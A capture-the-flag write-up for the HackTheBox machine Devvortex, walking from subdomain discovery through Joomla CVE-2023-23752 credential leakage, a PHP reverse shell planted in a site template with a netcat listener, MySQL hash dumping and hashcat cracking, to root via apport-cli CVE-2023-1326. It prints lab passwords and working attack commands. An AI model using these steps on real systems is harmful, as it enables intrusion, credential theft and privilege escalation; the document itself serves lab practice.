

# Devvortex

Devvortex is a easy machine on HTB.

## Enumeration

First we check the open port via **nmap**.


The ports 22, 80 are open.
Let's check the port 80 first. For that we need to add the **domain** to our **hosts** file.

```bash
echo "10.10.11.242   devvortex.htb" | sudo tee -a /etc/hosts
```


This is what you should see after browsing to the domain. It seems like a basic website. Let's perform some **web discovery**.


Nothing here! Let's check if there is some unknown **subdomains**


And we found the **dev** subdomain! So lets browse to it, `http://dev.devvortex.htb`. Don't forget to add it to your hosts file.

```bash
echo "10.10.11.242   dev.devvortex.htb" | sudo tee -a /etc/hosts
```


Another subdomains found means we need to redo some web discovery on it.


We can see a **administrator** page, and if we check it we can see a login page powered by **Joomla**. If we can obtain the version in use for the website it will be perfect. And i have found [this](https://www.itoctopus.com/how-to-quickly-know-the-version-of-any-joomla-website) website who explain how to find a the version of a Joomla website !
So go to `/administrator/manifests/files/joomla.xml`


## Foothold

So the version is `4.2.6` and after a little research we found the [CVE-2023-23752](https://nvd.nist.gov/vuln/detail/CVE-2023-23752). So the vulnerability is an improper access check allows **unauthorized access** to webservice endpoints. And so if we make a get request to the api endpoint we pight get confidential information. Per exemple at this url `/api/index.php/v1/config/application?public=true`, so let's test it with curl!

```bash
curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
```


So let's login as `lewis:P4ntherg0t1n5r3c0n##`


And we are in! Now if we go to `System->Site Templates->Cassiopeia Details and Files` we can see the templates of the site and we can modify them. So maybe we can manage to execute a rev shell if we edit the file and add some php code. I will use the **Pentestmonkey's reverse shell** here. So copy/paste it into a php template. Per exemple `error.php`, save the file and now you want to setup a netcat listener (replace "1234" by the port in your revshell).

```bash
nc -lvnp 1234
```

And we must curl the php file so the server execute our code.

```bash
curl "http://dev.devvortex.htb/templates/cassiopeia/error.php/error"
```


## User flag

And we have a connection as the user `www-data`! Now we need to get some information about the system. But if we use the command `ss -tlpn` we can see a mysql database. We have a user/password cred so we can try to login as `lewis:P4ntherg0t1n5r3c0n##`. But first we need to stabilize the shell.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# CTRL + Z
stty raw -echo; fg
```
Now we can connect to the database.

```bash
mysql -u lewis -p
```


And in `joomla->sd4fg_users` we found another user `logan`. And with a hash for the password. So copy/paste the hash in a file a we will use `hashcat` to break it.

```bash
hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt
```

And at the end we crack it! Now we can log with `logan:tequieromucho`. And we can find the flag in is home directory.


## Root flag

After we log in check if logan as permissions to execute something with root right.

```bash
sudo -l
```

And it can use the `usr/bin/apport-cli` with the sudo command. And with the `-v` option we can get the version of the script which is `2.20.11`. And after some research this version of `apport-cli` is vulnerable to privilege escalation with the [CVE-2023-1326](https://nvd.nist.gov/vuln/detail/CVE-2023-1326). So if we launch apport-cli to follow a process via it's `PID` and add the option to `file-bug` we can exploit that less is used for the default pager and input `!/bin/bash` to have a shell as root.

```bash
ps -ux
```

Take a pid of one process, and execute this command

```bash
sudo apport-cli -P 2113 -f
```

Press Y to pass the multiple question and choose view report. Now you can type `!/bin/bash`!

